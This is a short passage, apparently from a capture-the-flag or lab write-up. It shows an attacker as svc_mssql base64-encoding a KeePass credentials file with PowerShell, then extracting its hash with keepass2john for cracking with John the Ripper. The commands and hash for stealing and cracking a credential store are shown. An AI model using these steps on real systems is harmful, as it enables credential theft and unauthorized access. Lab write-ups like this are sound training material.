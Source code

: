 ![](20211107153103.png)

Long running MSSQL Proxies can cause issues.  Please switch to SSH after getting credentials.

Credentials download successfully.

converting to base64

```bash

$FilePath = "C:\Users\svc_mssql\Desktop\credentials.kdbx"
$File = [System.IO.File]::ReadAllBytes($FilePath);
$Base64String=[System.Convert]::ToBase64String($File);
```

passing the creds to john

```bash

keepass2john credentials.kdbx

credentials:$keepass$*2*60000*0*006e4f7f747a915a0301bded09da8339260ff96caf1ca7cef63b8fdd37c6a836*deabca672663938eddc0ee9e2726d9ff65d4ab7c6863f6f712f1c14b97c670a2*b33392502f94cd323ed25bc2d9c1749a*67ac769a9693b2ef7f1a149fb4e182042fcd2888df727ef4226edb5d9ae35c5c*dccf52b56e846bf088caa284beeaceffe16f304586ee13e87197387bac16ca6b

```

cracking using john
